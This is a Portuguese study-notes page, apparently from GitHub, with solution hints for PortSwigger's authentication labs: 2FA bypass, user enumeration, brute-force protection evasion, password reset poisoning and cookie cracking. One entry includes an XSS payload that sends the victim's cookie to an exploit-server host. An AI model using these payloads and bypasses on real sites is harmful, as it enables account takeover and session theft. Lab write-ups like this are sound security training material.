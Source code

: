 # Autenticação

Lembre-se das wordlists da PortSwigger para os ataques de força bruta:
* [Lista de Usuários](https://portswigger.net/web-security/authentication/auth-lab-usernames)
* [Lista de Senhas](https://portswigger.net/web-security/authentication/auth-lab-passwords)

<br>

## Laboratórios

**Simple 2FA Bypass**

Tente acessar o próximo endpoint diretamente (você precisa saber o nome do diretório previamente), por exemplo: `/my-account`.

Se isso não funcionar, tente mudar o header Referer como se você estivesse vindo de uma página de 2FA.

<br>
<br>

**Password Reset Broken Logic**

Mude o nome de usuário na request depois de pegar o link de reset:
```
temp-forgot-password-token=MgFMne17hOm2WM5BMHyVzvEewBFOwnyc&username=carlos&new-password-1=w&new-password-2=w
```

**User Enumeration with Different Responses**  
Olhe para a diferença da resposta quando um usuário existe ou não.

<br>
<br>

**User Enumeration with Different Response Time**

Se você ficar bloqueado, adicione o header `X-Forwarded-For` para bypassar o bloqueio.

Se o usuário existir, a resposta demorará mais tempo conforme o comprimento do password.
```
username=wiener&password=peterrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrr
```

Adicione a coluna "Response Completed" no Intruder para analisar as respostas que levaram mais do que o comum para retornar.

<br>
<br>

**Broken brute-force protection, IP block**

Coloque uma credencial válida a cada duas tentativas de brute force.

<br>
<br>

**Username enumeration via account lock**

O segredo é utilizar um ataque de Cluster Bomb e adicionar 5 payloads como Null como segunda lista.

Isso vai testar cada usuário 5 vezes e bloquear a conta se o usuário existir.
```
username=§invalid-username§&password=example§§
```

Depois de achar o usuário, faça o brute force da senha e faça uma busca negativa por `You have made too many incorrect login attempts`.

<br>
<br>

**2FA Broken Logic**

Na request `GET /login2`, mude o valor do parâmetro `verify` para **carlos**. Isso vai gerar um código MFA para a conta dele.

Em seguida, envie a request `POST /login2` para o Intruder e descubra o MFA por força bruta.

Dica: coloque a opção "Min integer digits" como 4 dígitos para testar códigos como 0001 em vez de somente 1.

<br>
<br>

**Brute-forcing a stay-logged-in Cookie**
O cookie tem esse formato:
```
base64(username+':'+md5HashOfPassword)
```

<br>
<br>

**Offline password cracking**

Roube o cookie da vítima com XSS:
```
<script>document.location='https://exploit-0a9500710453ead384ea359b014700c2.exploit-server.net/'+document.cookie</script>
```

Utilize o Hashcat ou algum site como Crackstation para quebrar o MD5.

<br>
<br>

**Password Reset Poisoning via Middleware**

Na request para solicitar o reset de password, altere o header `X-Forwarded-Host` com a URL que você controla.

Quando a vítima clicar no link que rececer no e-mail, o token será redirecionado para o seu domínio.

<br>
<br>

**Password Brute-force via Password Change**

É possível trocar o username no processo de troca de senha. Troque o usuário e use brute force nessa request.

<br>
<br>

**Weak isolation on dual-use endpoint**

Remova o parâmetro `current-password`.

<br>
<br>

**Authentication bypass via flawed state machine**

Drope a request que envolve "role-selector".
